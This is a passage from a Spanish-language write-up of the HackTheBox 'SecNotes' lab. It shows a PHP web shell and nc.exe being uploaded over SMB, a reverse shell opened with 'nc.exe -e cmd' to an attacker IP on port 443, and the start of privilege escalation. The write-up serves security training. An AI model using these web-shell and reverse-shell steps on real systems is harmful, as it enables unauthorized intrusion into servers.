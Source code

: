 ```bash
smb: \> put shell.php
putting file shell.php as \shell.php (0.2 kb/s) (average 1.7 kb/s)
smb: \> 
```

Ahora si tratamos de ejecutar un comando:

![""](/assets/images/htb-secnotes/secnotes-web16.png)

Lo que nos queda es ingresar al sistema mediante una reverse shell haciendo uso del archivo `nc.exe`, por lo que tambíen lo subimos al sistema, nos ponemos en escucha por el puerto 443 y ejecutamos nuestra reverse shell:

```bash
smb: \> put nc.exe
putting file nc.exe as \nc.exe (49.2 kb/s) (average 7.5 kb/s)
smb: \> dir
  .                                   D        0  Sun Dec 26 18:52:25 2021
  ..                                  D        0  Sun Dec 26 18:52:25 2021
  iisstart.htm                        A      696  Thu Jun 21 10:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 10:26:03 2018
  nc.exe                              A    28160  Sun Dec 26 18:52:26 2021
  shell.php                           A       65  Sun Dec 26 18:50:33 2021

                7736063 blocks of size 4096. 3397277 blocks available
smb: \>
```

- `http://10.10.10.97:8808/shell.php?cmd=nc.exe -e cmd 10.10.14.27 443`

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.97] 51477
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

whoami
whoami
secnotes\tyler

C:\inetpub\new-site>
```

Ya nos encontramos en la máquina como el usuario **tyler** y podemos visualizar la flag (user.txt). Por lo que ahora nos falta escalar privilegios; por lo que si accedemos al escritorio del usuario **tyler** vemos que tiene un archivo curioso llamando `bash.lnk`, es decir, un hipervínculo. Para obtener el origen de dicho archivo, vamos a obtener una reverse shell con powershell. 
